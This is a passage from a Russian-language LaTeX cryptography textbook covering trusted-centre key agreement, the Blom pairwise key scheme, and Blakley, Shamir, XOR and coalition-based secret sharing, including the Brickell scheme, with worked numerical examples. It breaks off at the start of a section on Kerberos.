        с дополнительным параметром $g$ -- генератором подгруппы максимально возможного порядка мультипликативной группы $\Z_n^*$:
        \[ \begin{array}{l}
            \PK_T = (n, e, g) ~~\text{открытый ключ}, \\
            \SK_T = (d) ~~ \text{закрытый ключ}. \\
        \end{array} \]
    \item Стороны $A$ и $B$ независимо создают свои открытые и закрытые ключи, обмениваясь информацией с центром $T$ по надёжному защищённому каналу. Стороны $A$ и $B$ выбирают свои закрытые ключи
        \[ \begin{array}{l}
            \SK_A = a, \\
            \SK_B = b, \\
        \end{array} \]
     и отправляют центру сообщения:
        \[ \begin{array}{ll}
            A \rightarrow T: & ~ I_A, ~~ g^{-\SK_A} = g^{-a} \mod n, \\
            B \rightarrow T: & ~ I_B, ~~ g^{-\SK_B} = g^{-b} \mod n, \\
        \end{array} \]
        где $I_A, I_B$ -- числовые идентификаторы сторон.
    \item Центр  $T$ вычисляет открытые ключи для $A$ и $B$ и также по надёжному каналу передаёт им:
        \[ \begin{array}{ll}
            A \leftarrow T: & ~ \PK_A = (g^{-\SK_A} - I_A)^{\SK_T} = (g^{-a} - I_A)^d \mod n, \\
            B \leftarrow T: & ~ \PK_B = (g^{-\SK_B} - I_B)^{\SK_T} = (g^{-b} - I_B)^d \mod n. \\
        \end{array} \]
    \item Теперь стороны $A$ и $B$ могут создать общий секретный симметричный сеансовый ключ. Например $A$ находит:
        \[ \begin{array}{ll}
            A: ~~ K_A & = ~ (\PK_B^e + I_B)^{\SK_A} ~ = \\
                & = ~ (((g^{-b} - I_B)^d)^e + I_B)^a ~ = \\
                & = ~ (g^{-b} - I_B + I_B)^a ~ = \\
                & = ~ g^{-ab} \mod n. \\
        \end{array} \]
        Аналогично $B$ вычисляет
            \[ K_B = (\PK_A^e + I_A)^{\SK_B} = g^{-ab} \mod n. \]
        Как видно, ключи одинаковы:
            \[ K = K_A = K_B = g^{-ab} \mod n. \]
\end{enumerate}


\subsection{Схема Блома распределения парных ключей}
\selectlanguage{russian}

Рассмотрим распределение ключей по \textbf{схеме Блома}\index{распределение секрета!Блома} (Blom), в которой каждые два пользователя из общего числа $N$ пользователей имеют доступ к общему секретному ключу, ключи различных пар различны.

По-прежнему,
    \[ \{ U_1, U_2, \dots, U_N \} \]
-- легальные пользователи, $\Z_p$ -- кольцо целых чисел.

Построим симметричный многочлен
    \[ f(x,y) = \sum_{i=1}^k \sum_{j=1}^k a_{ij} x^i y^j, \]
    \[ a_{ij} \in \Z_p, ~ a_{ij} = a_{ji}. \]

Возьмем набор чисел $r_1, r_2, \dots, r_N$, где $r_i$ -- открытый ключ пользователя $U_i$, ~ $r_i \in \Z_p$.

Каждый пользователь $U_i$ получает многочлен $f(x,y)$ и вместо $y$ подставляет свое значение $r_i$, так что получается $N$ многочленов $f(x, r_i), ~ i = \overline{1,N}$.

Каждые два участника коалиции должны иметь общий ключ. Пусть, например, $U_1$ и $U_2$ хотят создать общий ключ. Тогда пользователь $U_1$, используя $f(x, r_1)$ и зная $r_2$, вычисляет
    \[ K_{21} = f(r_2, r_1). \]

Пользователь $U_2$, используя $f(x, r_2)$ и зная $r_1$, вычисляет
    \[ K_{12} = f(r_1, r_2). \]

Так как для выбранного многочлена справедливо равенство
    \[ f(r_1, r_2) = f(r_2, r_1), \]
то
    \[ K_{12} = K_{21}. \]
Таким образом, два участника коалиции создали общий ключ. Таким же образом поступают и другие пары пользователей. Третий пользователь, не участник коалиции, не может подобрать ключ, так как это представляет собой трудную задачу в вычислительном смысле.

%\section{Пример предварительного распределения ключей и разделения секрета в схеме Блома в виде многочленов}
\example
В схеме распределения ключей Блома для $N=4$ пользователей доверенный центр выбирает:
\begin{enumerate}
    \item модуль $p = 17$ поля $\GF{p}$;
    \item свой секретный симметричный многочлен от двух переменных
        \[ f(x,y) = a + b (x + y) + c x y \mod p \]
        над полем $\GF{p}$;
    \item открытые ключи для каждого пользователя
        \[ r_1 = 5, ~ r_2 = 9, ~ r_3 = 14, ~ r_4 = 3; \]
    \item вычисляет и секретно раздает многочлен $S_i(x)$ каждому пользователю $U_i$:
        \[ \begin{array}{l}
            S_1(x) = f(x, r_1) = 1 + 2x \mod p, \\
            S_2(x) = f(x, r_2) = 3 + 10x \mod p, \\
            S_3(x) = f(x, r_3) = 14 + 3x \mod p, \\
            S_4(x) = f(x, r_4) = 0 + 15x \mod p. \\
        \end{array} \]
\end{enumerate}
Найдем ключи и восстановим секретный многочлен доверенного центра.

Секретные сеансовые ключи пользователей равны
    \[ K_{ij} = K_{ji} = S_i(r_j) = S_j(r_i): \]
\[ \begin{array}{lcl}
    K_{12} = K_{21} = 2, & & K_{13} = K_{31} = 12, \\
    K_{14} = K_{41} = 7, & & K_{23} = K_{32} = 7, \\
    K_{24} = K_{42} = 16, & & K_{34} = K_{43} = 6. \\
\end{array} \]

По любым 3 многочленам пользователей можно восстановить секретный многочлен Центра. Коэффициенты секретного многочлена Центра равны $a=7, b=9, c=2$.
\exampleend

%\section{Схема предварительного распределения ключей и разделения секрета Блома}
%
%Центр выбирает секретную симметрическую $(k \times k)$-матрицу $F$ над полем $\GF{p}$, где $p$ -- простое. Каждому пользователю $i$ Центр создает и выдает открытый ключ $P_i$, который является $k$-мерным вектором над $\GF{p}$, и секретный ключ $S_i = F \cdot P_i$, $k$-мерный вектор.
%
%Когда два пользователя $i$ и $j$ хотят создать секретный сессионный ключ для обмена сообщениями, они обмениваются открытыми ключами $P_i, P_j$ и вычисляют секретный сессионный ключ $K_{ij} = S_i P_j^T = S_j P_i^T$.
%
%%Если известны открытые ключи $k$ пользователей, то...
%%TODO
%
%%Схема Блома используется в High-bandwidth Digital Content Protection (HDCP), разрботанной Intel для применения в DVD плеерах и телевидении высокой четкости.


В этом разделе были рассмотрены протоколы, в которых ключи вырабатываются в процессе обмена информацией.
%Существует и другой подход, который будет рассмотрен в следующих разделах.


\chapter{Разделение секрета}
\selectlanguage{russian}

\section{Пороговые схемы}

Идея \emph{пороговой} $(K, N)$-схемы\index{разделение секрета!пороговое} разделения общего секрета среди $N$ пользователей состоит в следующем. Доверенная сторона хочет распределить некий секрет $K_0$ между $N$ пользователями таким образом, что:
\begin{itemize}
    \item любые $m_1: K \leq m_1 \leq N$ легальных пользователей могут получить секрет (или доступ к секрету), если предъявят свои секретные ключи;
    \item любые $m_2: m_2 < K$, легальных пользователей не могут получить секрет и не могут определить (вычислить) этот секрет, даже решив трудную в вычислительном смысле задачу.
\end{itemize}

Далее рассмотрены три случая: $(K, N)$-схема Блэкли, $(K, N)$-схема Шамира и простая $(N,N)$-схема.

\subsection[Схема Блэкли]{Схема разделения секрета Блэкли}\index{схема разделения секрета!Блэкли|(}\index{схема разделения секрета!векторная|(}
\selectlanguage{russian}

Схема разделения секрета Блэкли (\langen{George Robert Blakley},~\cite{Blackley:1979}), также называемая векторной схемой, основывается на том, что для восстановления всех координат точки в $K$-мерном пространстве, принадлежащей нескольким неколлинеарным гиперплоскостям, необходимо и достаточно знать уравнения $K$ таких плоскостей. То есть в двумерном пространстве нужны две пересекающиеся прямые, в трёхмерном -- три пересекающиеся в нужной точке плоскости и так далее.

\begin{figure}[thb]
	\centering
	\subcaptionbox{}{\includegraphics[width=0.45\textwidth]{pic/blakley-2}}
	~~~~
	\subcaptionbox{}{\includegraphics[width=0.45\textwidth]{pic/blakley-3}}
	\caption{Для восстановления координат точки пересечения плоскостей в трёхмерном пространстве необходимо и достаточно знать уравнения трёх таких плоскостей. Данные изображения приведены только для иллюстрации идеи -- в схеме Блэкли используется конечное поле, плоскости в котором сложно представить на графике. Рисунок участника English Wikipedia stib, доступно по \href{https://creativecommons.org/licenses/by-sa/3.0/deed.ru}{лицензии CC-BY-SA 3.0}}
\end{figure}

Для разделения секрета $M$ между $N$ сторонами таким образом, чтобы любые $K$ сторон могли восстановить секрет, доверенный центр выполняет следующие операции:
\begin{itemize}
	\item выбирает несекретное большое простое число $p$ ($p > M$);
	\item выбирает случайную точку, одна из координат которой (например, первая) будет равна разделяемому секрету M: $(x_1 = M, x_2, \dots, x_K)$;
	\item для каждого участника $i$ выбирает $K$ случайных коэффициентов гиперплоскости $C^i_1, C^i_2, \dots, C^i_{K}$ ($\ne 0$), а последний коэффициент $C^i_{K+1}$ вычисляется таким образом, чтобы гиперплоскость проходила через выбранную точку:
		\[ \begin{array}{l}
			C^i_1 x_1 + C^i_2 x_2 + \dots + C^i_K x_K + C^i_{K+1} = 0 \mod p, \\
			C^i_{K+1} = - ( C^i_1 x_1 + C^i_2 x_2 + \dots + C^i_K x_K ) \mod p; \\
		\end{array} \]
	\item раздаёт каждой стороне по следу в виде коэффициентов общего уравнения гиперплоскости $C^i_1, C^i_2, \dots, C^i_{K}, C^i_{K+1}$ и общему модулю $p$.
\end{itemize}

Если стороны могут собраться вместе и получить не менее чем $K$ различных гиперплоскостей, то составив и решив систему уравнений с $K$ неизвестными, они смогут получить все координаты точки $x_1, x_2, \dots, x_k$:

\[ \left\{ \begin{array}{l}
    C^1_1 x_1 + C^1_2 x_2 + \dots + C^1_K x_K + C^1_{K+1} = 0 \mod p, \\
    \dots, \\
    C^K_1 x_1 + C^K_2 x_2 + \dots + C^K_K x_K + C^K_{K+1} = 0 \mod p. \\
\end{array} \right. \]

Если собрано меньшее количество следов (уравнений гиперплоскостей), то их будет недостаточно для решения системы уравнений.

\example
Приведём пример разделения секрета по схеме Блэкли в $\GF{11}$. При разделении секрета $M$ используя $(3,N)$ схему Блэкли участники получили следы $(4, 8, 2, 6)$, $(2, 6, 8, 3)$, $(6, 8, 4, 1)$. Зная, что следы представляют собой коэффициенты в уравнении плоскости общего вида, а исходный секрет -- первую координату точки пересечения плоскостей, составляем систему уравнений для нахождения координаты этой точки:

\[ \left\{\begin{aligned}
   \left( 4\cdot x_1 + 8\cdot x_2 + 2\cdot x_3 + 6 \right) &= 0 &\mod 11  \\
   \left( 2\cdot x_1 + 6\cdot x_2 + 8\cdot x_3 + 3 \right) &= 0 &\mod 11  \\
   \left( 6\cdot x_1 + 8\cdot x_2 + 4\cdot x_3 + 1 \right) &= 0 &\mod 11  \\
\end{aligned} \right. \]

Решением данной системы будет являться точка (6, 4, 2), а её первая координата -- разделяемый секрет.
\exampleend

\index{схема разделения секрета!векторная|)}\index{схема разделения секрета!Блэкли|)}


\subsection[Схема Шамира]{Схема разделения секрета Шамира}\index{схема разделения секрета!Шамира|(}\index{схема разделения секрета!интерполяционных полиномов Лагранжа|(}
\selectlanguage{russian}

Схема разделения секрета Шамира (\langen{Adi Shamir},~\cite{Shamir:1979}), также называемая схемой интерполяционных полиномов Лагранжа, основывается на том, что для восстановления всех коэффициентов полинома $P(x) = a_{K-1}x^{K-1} + \dots + a_1 x + a_0$ степени $K-1$ требуется $K$ координат различных точек, принадлежащих кривой $y=P(x)$. Все операции проводятся в конечном поле $GF(p)$.

\begin{figure}[thb]
	\centering
	\includegraphics[width=0.5\textwidth]{pic/shamir}
  \caption{Через две точки можно провести неограниченное число графиков, заданных полиномами степени 2. Чтобы выбрать из них единственный -- нужна третья точка. Данные графики приведены только для иллюстрации идеи -- в схеме Шамира используется конечное поле, полиномы над которым сложно представить на графике.}
  \label{fig:shamir}
\end{figure}

Для разделения секрета $M$ между $N$ сторонами таким образом, чтобы любые $K$ сторон могли восстановить секрет, доверенный центр выполняет следующие операции:
\begin{itemize}
	\item выбирает несекретное большое простое число $p$ ($p > M$);
	\item в качестве свободного члена секретного многочлена полагает разделяемый секрет $a_0 = M$;
	\item выбирает остальные секретные коэффициенты многочлена $a_1, \dots, a_{k-1}$, меньшие $p$;
	\item выбирает $N$ различных $x$, таких, что $0 < x_i < p$;
	\item для каждого выбранного $x_i$ вычисляет соответствующий $y_i$, подставляя значения в формулу многочлена
		\[ y_i = P( x_i ) = a_{K-1}x_i^{K-1} + \dots + a_1 x_i + a_0 \mod p ;\]
	\item раздаёт каждой стороне по следу вида $(x_i, y_i)$ и общему модулю $p$.
\end{itemize}

Если стороны могут собраться вместе и получить не менее чем $K$ различных следов, то, составив и решив систему уравнений с $K$ неизвестными, они смогут получить все коэффициенты $a_0, a_1, \dots, a_{k-1}$ секретного многочлена:

\[ \left\{ \begin{array}{l}
    y_1 = a_{K-1}x_1^{K-1} + \dots + a_1 x_1 + a_0 \mod p, \\
    \dots, \\
    y_k = a_{K-1}x_k^{K-1} + \dots + a_1 x_k + a_0 \mod p. \\
\end{array} \right. \]

Если собрано меньшее количество следов, то их будет недостаточно для решения системы уравнений.

Существует также способ вычисления коэффициентов многочлена, основанный на методе интерполяционных полиномов Лагранжа (откуда и берётся второе название метода разделения секрета). Идея способа состоит в вычислении набора специальных полиномов $l_i \left( x \right)$, которые принимают значение $1$ в точке $x_i$, а во всех остальных точках-следах их значение равно нулю:

\[ \begin{cases}
	l_i \left( x_j \right) = 1, &x_j = x_i, \\
	l_i \left( x_j \right) = 0, &x_j \ne x_i. \\
\end{cases} \]

Далее эти многочлены умножаются на значения $y_i$ и в сумме дают исходный многочлен:
\[\begin{array}{llll}
  l_i \left( x \right) &=& \prod\limits_{j \ne i} {\frac{{x - x_j }}{{x_i  - x_j }}} &\mod p, \\
  F\left( x \right) &=& \sum\limits_i {l_i \left( x \right)y_i } &\mod p. \\
\end{array}\]

Строго говоря, для восстановления самого секрета, которым является свободный член многочлена, не обязательно восстанавливать весь многочлен, а можно использовать упрощённую формулу для восстановления только свободного члена $a_0 = M$:
    \[ M = \sum\limits_{i=0}^{k-1} y_i \prod\limits_{j=0, j \neq i}^{k-1} \frac{x_j}{x_j - x_i}. \]

\example
Приведём схему Шамира в поле $\GF{p}$. Для разделения секрета $M$ в $(3,n)$-пороговой схеме используется многочлен степени $3-1=2$.
    \[ f(x) = a x^2 + b x + M \mod p, \]
где $p$ -- простое\index{число!простое} число. Пусть $p=23$. Восстановим секрет $M$ по \emph{теням}
    \[ (1,14), (4,21), (15,6). \]

Последовательно вычисляем
\[\begin{array}{llc}
M	&\displaystyle = \sum\limits_{i=0}^{k-1} y_i \prod\limits_{j=0, j \neq i}^{k-1} \frac{x_j}{x_j - x_i} & \mod p = \\
	\\
	&= 14 \cdot \frac{4}{4-1} \cdot \frac{15}{15-1} + 21 \cdot \frac{1}{1-4} \cdot \frac{15}{15-4} + 6 \cdot \frac{1}{1-15} \cdot \frac{4}{4-15} & \mod 23 = \\
	\\
	&\displaystyle = 14 \cdot \frac{4}{3} \cdot \frac{15}{14} + 21 \cdot \frac{1}{-3} \cdot \frac{15}{11} + 6 \cdot \frac{1}{-14} \cdot \frac{4}{-11} & \mod 23 = \\
	\\
	&\displaystyle = 20 - 7 \cdot 15 \cdot 11^{-1} + 12 \cdot 7^{-1} \cdot 11^{-1} & \mod 23 = \\
	\\
	&= 13 \mod 23.
\end{array}\]

\exampleend

\index{схема разделения секрета!интерполяционных полиномов Лагранжа|)}\index{схема разделения секрета!Шамира|)}


\subsection[$(N, N)$-схема]{$(N, N)$-схема разделения секрета}
\selectlanguage{russian}

Рассмотрим пороговую схему распределения одного секрета между двумя легальными пользователями. Она обозначается как $(2, 2)$-схема~-- это означает, что оба и только оба пользователя могут получить секрет. Предположим, что секрет $K_{0}$~-- это двоичная последовательность длины $M$, $K_{0} \in \Z_{M}$.

Разделение секрета $K_{0}$ состоит в следующем.
\begin{itemize}
    \item Первый пользователь в качестве секрета получает случайную двоичную последовательность $A_{1}$ длины $M$.
    \item Второй пользователь в качестве секрета получает случайную двоичную последовательность $A_{2} =K_{0} \oplus A_{1}$ длины $M$.
    \item Для получения секрета $K_{0}$ оба пользователя должны сложить по модулю 2 свои секретные ключи (последовательности)  $K_{0} = A_{2} \oplus A_{1}$.
\end{itemize}

Теперь рассмотрим пороговую $(N,N)$-схему.

Имеются общий секрет $K_{0} \in \Z_{M}$ и $N$ легальных пользователей, которые могут получить секрет только в случае, если одновременно предъявят свои секретные ключи. Распределение секрета $K_{0}$ происходит следующим образом.

\begin{itemize}
    \item Первый пользователь в качестве секрета получает случайную двоичную последовательность $A_{1} \in \Z_{M}$.
    \item Второй пользователь в качестве секрета получает случайную двоичную последовательность $A_{2} \in \Z_{M}$ и~т.\,д.
    \item $(N-1)$-й пользователь в качестве секрета получает случайную двоичную последовательность $A_{N-1} \in \Z_{M}$.
    \item $N$-й пользователь в качестве секрета получает двоичную последовательность
        \[ K_0 \oplus A_1 \oplus A_2 \oplus \dots \oplus A_{N-1}. \]
    \item Для получения секрета $K_0$ все пользователи должны сложить по модулю 2 свои последовательности:
        \[ A_1 \oplus A_2 \oplus \dots \oplus A_{N-1} \oplus (K_0 \oplus A_1 \oplus A_2 \dots \oplus A_{N-1}) = K_0. \]
\end{itemize}

Предположим, что собравшихся вместе пользователей меньше общего числа $N$, например, всего $N-1$ пользователей. Тогда суммирование $N-1$ последовательностей не определяет секрета, а перебор невозможен, так как данная схема разделения секрета аналогична криптосистеме Вернама и обладает совершенной криптостойкостью.


\section{Распределение секрета по коалициям}

\subsection{Схема для нескольких коалиций}

Предположим, что имеется $N$ легальных пользователей
    \[ \{ U_1, U_2, \dots, U_N \}, \]
которым нужно сообщить (открыть, предоставить в доступ) общий секрет $K$.

Секрет может быть доступен только определённым коалициям\index{распределение секрета!по коалициям}, например:
\[ \begin{array}{l}
    C_1 = \{ U_1, U_2 \}, \\
    C_2 = \{ U_1, U_3, U_4 \}, \\
    C_3 = \{ U_2, U_3 \}, \\
    \dots
\end{array} \]
При этом ни одна из коалиций $C_i, ~ i = 1, 2, \dots$ не должна быть подмножеством другой коалиции.


\example
Имеется 4 участника:
    \[ \{ U_1, U_2, U_3, U_4 \}, \]
которые образуют 3 коалиции:
\[ \begin{array}{l}
    C_1 = \{ U_1, U_2 \}, \\
    C_2 = \{ U_1, U_3 \}, \\
    C_3 = \{ U_2, U_3, U_4 \}. \\
\end{array} \]
Распределение частичных секретов между ними представлено в виде таблицы~\ref{tab:secret-share-coalition-1}, в которой введены следующие обозначения: $a_1, b_1, c_2, c_3$ -- случайные числа из кольца $\Z_M$. В строках таблицы содержатся частичные секреты каждого из пользователей, в столбцах таблицы показаны частичные секреты, соответствующие каждой из коалиций.

\begin{table}[!ht]
    \centering
    \caption{Распределение секрета по определённым коалициям\label{tab:secret-share-coalition-1}}
    \begin{tabular}{|c||c|c|c|}
        \hline
              & $C_1 = \{ U_1, U_2 \}$ & $C_2 = \{U_1, U_3 \}$ & $C_3 = \{ U_2, U_3, U_4 \}$ \\
        \hline \hline
        $U_1$ & $a_1$     & $b_1$     & -- \\
        $U_2$ & $K - a_1$ & --        & $c_2$ \\
        $U_3$ & --        & $K - b_1$ & $c_3$  \\
        $U_4$ & --        & --        & $K - c_2 - c_3$ \\
        \hline
    \end{tabular}
\end{table}

Как видно из приведённых данных, суммирование по модулю $M$ чисел, записанных в каждом из столбцов таблицы, открывает секрет $K$.
\exampleend


\example

%\section{Схема разделения секрета на монотонных булевых функциях}
%\example
В системе распределения секрета доверенный
%с использованием монотонных булевых функций
центр использует кольцо $\Z_m$ целых чисел по модулю $m$. Требуется разделить секрет $K$ между $5$ пользователями:
    \[ \{ U_1, U_2, U_3, U_4, U_5 \} \]
так, чтобы восстановить секрет могли только коалиции:
\[ \begin{array}{lll}
    C_1 = \{ U_1, U_2 \},      & & C_2 = \{ U_1, U_3 \}, \\
    C_3 = \{ U_2, U_3, U_4 \}, & & C_4 = \{ U_2, U_3, U_5 \}, \\
    C_5 = \{ U_3, U_4, U_5 \}, & & C_6 = \{ U_1, U_2, U_3 \}. \\
\end{array} \]

Заданное множество коалиций с доступом не является минимальным, так как одни коалиции входят в другие:
    \[ C_1 \subset C_6, ~ C_2 \subset C_6. \]
Исключая $C_6$, получим минимальное множество коалиций с доступом к секрету: ни одна из оставшихся коалиций не входит в другую $C_i \nsubseteq C_j$ для $i \neq j$. Пользователям выдаются тени по минимальному множеству коалиций с доступом. В строках таблицы~\ref{tab:secret-share-coalition-2} содержатся частичные секреты каждого из пользователей, в столбцах таблицы показаны частичные секреты, соответствующие каждой из коалиций.

\begin{table}[!ht]
    \centering
    \caption{Распределение секрета по определённым коалициям\label{tab:secret-share-coalition-2}}
    \begin{tabular}{|c||c|c|c|c|c|}
        \hline
              & $C_1$     & $C_2$     & $C_3$           & $C_4$           & $C_5$  \\
        \hline \hline
        $U_1$ & $a_1$     & $b_1$     & --              & --              & -- \\
        $U_2$ & $K - a_1$ & --        & $c_2$           & $d_2$           & --\\
        $U_3$ & --        & $K - b_1$ & $c_3$           & $d_3$           & $e_3$ \\
        $U_4$ & --        & --        & $K - c_2 - c_3$ & --              & $e_4$ \\
        $U_5$ & --        & --        & --              & $K - d_2 - d_3$ & $K - e_3 - e_4$ \\
        \hline
    \end{tabular}
\end{table}

Тени выбираются случайно из кольца $\mathbb{\Z}_m$. В результате у пользователей будут тени. 
\exampleend

\subsection{Схема Брикелла для нескольких коалиций}\index{схема распределение секрета!Бриккела|(}
\selectlanguage{russian}

Рассмотрим схему Брикелла (\langen{Ernest Francis Brickell},~\cite{Brickell:1990}) распределения секрета по коалициям.

По-прежнему,
    \[ \{ U_1, U_2, \dots, U_N \} \]
-- легальные пользователи. Пусть $\Z_p$~--- кольцо целых чисел по модулю $p$. Рассмотрим векторы
    \[ \mathcal{U} = \left\{ (u_1, u_2, \dots, u_d) \right\}, ~~ u_i \in \Z_p \]
длины $d$. Каждому пользователю $U_i, ~ i = 1, \dots, N$ ставится в соответствие вектор
    \[ \varphi(U_i) \in \mathcal{U}, ~~ i = 1, \dots, N. \]

Тогда каждой из коалиций, например,
    \[ C_1 = \{ U_1, U_2, U_3 \}, \]
соответствует набор векторов
    \[ \varphi(U_1), \varphi(U_2), \varphi(U_3). \]
Эти векторы должны быть выбраны так, чтобы их линейная оболочка \emph{содержала} вектор
    \[ (1, 0, 0, \dots, 0) \]
длины $d$. Линейная оболочка любого набора векторов, не образующих коалицию, \emph{не должна} содержать вектор $(1, 0, 0, \dots, 0)$ длины $d$.

Пусть $K_0 \in \Z_p$ -- общий секрет. Распределение секрета производится следующим образом. Сначала вычисляется вектор $(K_0, K_1, \dots, K_{d-1})$, где первая координата -- это общий секрет, а остальные координаты выбираются из $\Z_p$ случайно. Затем вычисляются скалярные произведения:
\[\begin{array}{l}
	\left( \left( K_0, K_1, \dots, K_{d-1} \right), ~ \varphi(U_1) \right) ~=~ a_1, \\
	\left( \left( K_0, K_1, \dots, K_{d-1} \right), ~ \varphi(U_2) \right) ~=~ a_2, \\
	\dots \\
	\left( \left( K_0, K_1, \dots, K_{d-1} \right), ~ \varphi(U_N) \right) ~=~ a_N. \\
\end{array}\]

Пользователям $U_i, ~ i = 1, 2, \dots, N$ выдаются их частичные секреты:
    \[ U_i \colon \left\{ \varphi(U_i), a_i \right\}. \]

Пусть коалиция $C$ -- допустимая, например:
    \[ C = C_1 = \{ U_1, U_2, U_3 \}. \]

Тогда члены коалиции совместно находят такие коэффициенты $\lambda_1, \lambda_2, \lambda_3$, что
    \[ \lambda_1\varphi(U_1)+\lambda_2\varphi(U_2)+\lambda_3\varphi(U_3) ~=~ (1,0, \dots, 0). \]

После этого вычисляется выражение
\[\begin{array}{l}
    \lambda_1 a_1 + \lambda_2 a_2 + \lambda_3 a_3 = \\
    = \left( \left( K_0, K_1, \dots, K_{d-1} \right), ~ \lambda_1 \varphi(U_1) + \lambda_2 \varphi(U_2) + \lambda_3 \varphi(U_3) \right) = \\
    = \left( \left( K_0, K_1, \dots, K_{d-1} \right), ~ \left( 1, 0, \dots, 0 \right) \right) =  K_0, \\
\end{array}\]
которое и является общим секретом.

%\section{Схема разделения секрета в векторном пространстве Бриккела}
%
%В схеме Бриккела для $n$ пользователей $\{ U_1, U_2, \ldots, U_n \}$ Центр выбирает $k$-мерные векторы $\varphi(U_i)$ над полем $\mathbb{\Z}_p$ так, чтобы их линейная нетривиальная комбинация над полем $\mathbb{\Z}_p$ могла равняться единичному вектору
%    \[ (1,0,0, \ldots, 0) = \sum\limits_{i=1}^{n} c_i \ \varphi(U_i), ~ c_i \in  \mathbb{\Z}_p. \]
%Центр пользователю $i$ присваивает \emph{открытый, публично доступный} вектор $\varphi(U_i)$.
%
%Для разделения секрета $K$ Центр выбирает случайные числа $a_2, a_3, \ldots, a_n$, составляет вектор $\bar{a} = (K, a_2, a_3, \ldots, a_n)$ и выдаёт каждому пользователю \emph{секретную} тень $s_i = \bar{a} \cdot \varphi(U_i)$.
%
%Восстановление секрета производится
%    \[ K = \bar{a} \cdot (1,0,\ldots,0) = \bar{a} \cdot \sum\limits_{i=1}^{n} c_i \varphi(U_i) = \sum\limits_{i=1}^{n} c_i s_i, \]
%так как из открытых векторов $\varphi(U_i)$ пользователи могут найти $c_i$.
%
%Восстановить секрет могут только те коалиции пользователей, для которых нетривиальная комбинация векторов $\varphi(U_i)$ даёт единичный вектор.

\example
Для сети из $n = 4$ участников
    \[ \{ U_1, U_2, U_3, U_4 \} \]
выбраны следующие векторы длины $k = 3$ над полем $\Z_{23}$:
\[ \begin{array}{l}
    \varphi(U_1) = (0,2,0), \\
    \varphi(U_2) = (2,0,7), \\
    \varphi(U_3) = (0,5,7), \\
    \varphi(U_4) = (0,2,9). \\
\end{array} \]
Найдём все коалиции, которые могут раскрыть секрет.

Запишем
    \[ (1,0,0) = c_1 (0,2,0) + c_2 (2,0,7) + c_3 (0,5,7) + c_4 (0,2,9). \]
Ясно, что $c_2 \neq 0$, и коалициями пользователей, которые дают единичный вектор и, следовательно, могут восстановить секрет, являются:
\[ \begin{array}{l}
    C_1 = \{ U_1, U_2, U_3 \}, \\
    C_2 = \{ U_1, U_2, U_4 \}, \\
    C_3 = \{ U_2, U_3, U_4 \}. \\
\end{array} \]

Пусть доверенный центр для секрета $K = 4$ выбрал вектор $\bar{a} = (4, 2, 9)$. Тогда участники получают тени:
    \[ s_1 = (4,2,9) \cdot (0,2,0) = 4 \mod 23, \]
    \[ s_2 = (4,2,9) \cdot (2,0,7) = 2 \mod 23, \]
    \[ s_3 = (4,2,9) \cdot (0,5,7) = 4 \mod 23, \]
    \[ s_4 = (4,2,9) \cdot (0,2,9) = 16 \mod 23. \]

Возьмём коалицию $C_1 = \{ U_1, U_2, U_3 \}$ и вычислим коэффициенты $c_i$:
    \[ (1,0,0) = c_1 (0,2,0) + c_2 (2,0,7) + c_3 (0,5,7), \]
\[ \begin{array}{l}
    c_1 = 7 \mod 23, \\
    c_2 = 12 \mod 23, \\
    c_3 = 11 \mod 23. \\
\end{array} \]

Найдём секрет:
    \[ K = 7 \cdot 4 + 12 \cdot 2 + 11 \cdot 4 = 4 \mod 23.\]
\exampleend

\index{схема распределение секрета!Бриккела|)}



\chapter{Примеры систем защиты}

\section{Система Kerberos для локальной сети}
\selectlanguage{russian}

Система аутентификации и распределения ключей Kerberos основана на протоколе Нидхема~---~Шрёдера. Самые известные реализации протокола Kerberos включают Microsoft Active Directory и ПО Kerberos с открытым кодом для Unix.

Протокол предназначен для решения задачи аутентификации и распределения ключей в рамках локальной сети, в которой есть группа пользователей, имеющих доступ к набору сервисов, и требуется обеспечить единую аутентификацию для всех сервисов. Протокол Kerberos использует только симметричное шифрование. Секретный ключ используется для взаимной аутентификации.

Естественно, что в нелокальной сети Интернет невозможно секретно создать и распределить пары секретных ключей, и поэтому Kerberos построен для (виртуальной) локальной сети.

В протоколе используется 4 типа субъектов:

\begin{itemize}
    \item пользователи системы $C_i$;
    \item сервисы $S_i$, доступ к которым имеют пользователи;
    \item сервер аутентификации AS (Authentication Server), который производит аутентификацию пользователей по паролям и/или смарт-картам только один раз и выдаёт секретные сеансовые ключи для дальнейшей аутентификации;
    \item сервер выдачи мандатов TGS (Ticket Granting Server) для аутентификации доступа к запрашиваемым сервисам, аутентификация выполняется по сеансовым ключам\index{ключ!сеансовый}, выданным сервером AS.
\end{itemize}

Для работы протокола требуется заранее распределить следующие секретные симметричные ключи для взаимной аутентификации:
\begin{itemize}
    \item Ключи $K_{C_i}$ между пользователем $i$ и сервером AS. Как правило, ключом служит обычный пароль\index{пароль}, точнее результат хэширования пароля. Может быть использована и смарт-карта;
    \item Ключ $K_{TGS}$ между серверами AS и TGS;
    \item Ключи $K_{S_i}$ между сервисами $S_i$ и сервером TGS.
\end{itemize}

\begin{figure}[!ht]
	\centering
	\includegraphics[width=\textwidth]{pic/kerberos}
	\caption{Схема аутентификации и распределения ключей Kerberos\label{fig:kerberos}}
\end{figure}

На рис.~\ref{fig:kerberos} представлена схема протокола, состоящая из 6 шагов.

Введём обозначения для протокола между пользователем $C$ с ключом $K_C$ и сервисом $S$ с ключом $K_S$:
\begin{itemize}
    \item $ID_C, ID_{TGS}, ID_S$ -- идентификаторы пользователя, сервера TGS и сервиса $S$ соответственно;
    \item $t_i, \tilde{t}_i$ -- запрашиваемые и выданные границы времени действия сеансовых ключей аутентификации;
    \item $ts_i$ -- метка текущего времени (timestamp);
    \item $N_i$ -- одноразовая метка (nonce)\index{одноразовая метка}, псевдослучайное число для защиты от атак воспроизведения сообщений;
    \item $K_{C,TGS}, K_{C,S}$ -- выданные сеансовые ключи аутентификации пользователя и сервера TGS, пользователя и сервиса $S$ соответственно;
    \item $T_{TGS} = E_{K_{TGS}}(K_{C,TGS} ~\|~ ID_C ~\|~ \tilde{t}_1)$ -- мандат (ticket) для TGS, который пользователь расшифровать не может;
    \item $T_{S} = E_{K_S}(K_{C,S} ~\|~ ID_C ~\|~ \tilde{t}_2)$ -- мандат для сервиса $S$, который пользователь расшифровать не может;
    \item $K_1, K_2$ -- обмен информацией для генерирования общего секретного симметричного ключа дальнейшей коммуникации, например, по протоколу Диффи~---~Хеллмана\index{протокол!Диффи~---~Хеллмана}.
\end{itemize}

Схема протокола следующая.
\begin{enumerate}
